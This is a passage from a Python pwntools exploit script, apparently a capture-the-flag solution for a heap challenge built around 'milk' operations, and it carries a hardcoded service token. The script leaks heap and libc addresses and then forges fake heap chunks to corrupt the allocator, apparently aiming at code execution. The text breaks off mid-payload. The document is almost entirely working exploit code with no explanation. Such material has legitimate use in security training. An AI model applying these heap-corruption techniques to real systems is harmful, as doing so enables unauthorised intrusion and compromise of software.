     r.sendline(str(idx))
    r.recvuntil('> ')

def drink():
    r.sendline('d')
    r.recvuntil('> ')

def exploit(r):
    if len(sys.argv) > 1:
        r.recvuntil("Token:")
        r.sendline('yuRRme9y3wc5ZCHyhckEBnRsR3ueR8M8')

    put_milk("A"*15 + '\n', '\n')
    remove(0)
    put_milk('B'*85, '\n')

    leak = u64(view().split('[')[2].split(']')[0].ljust(8, '\0')) - 0xc88
    log.info("Heap: " + hex(leak))
    if leak < 0x560000000000:
        log.failure("Error: HEAP needs to start with 0x56 addr.")
        sys.exit(-1)

    remove(0)

    payload  = p64(leak+0xd10)*2
    payload += p64(0)
    payload += p64(0x51)
    payload += p64(leak+0xcc0)
    payload += p64(0)
    payload += "A" * 0x18
    payload += '\n'
    put_milk(payload, '\n')

    payload = p64(0xd1) * 2
    payload += p64(0x424242) * 5
    payload += p64(leak+0xca0)*2
    payload += 'B' * 2
    payload += '\n'
    put_milk(payload, '\n')

    payload  = 'C' * 0x50
    payload += '\n'
    put_milk(payload, '\n')

    drink()

    payload  = p64(leak+0xd38)
    payload += p64(leak+0xd48)
    payload += '\n'
    put_milk(payload, '\n')

    remove(0)

    libc = u64(view().split('\n')[0].split()[-1].ljust(8, '\0')) - 0x3c3b78
    log.info("libc: " + hex(libc))

    payload  = p64(0x444444444444) * 2
    payload += p64(0x41)*2
    payload += p64(0x444444444444)
    payload += p64(leak+0xc80)
    payload += p64(leak+0xcc0)
    payload += '\n'
    put_milk(payload, '\n')

    remove(1)

    payload  = p64(0x61616161) * 2
    payload += p64(0)
    payload += p64(0x51)
    payload += p64(libc+0x3c3b45)*6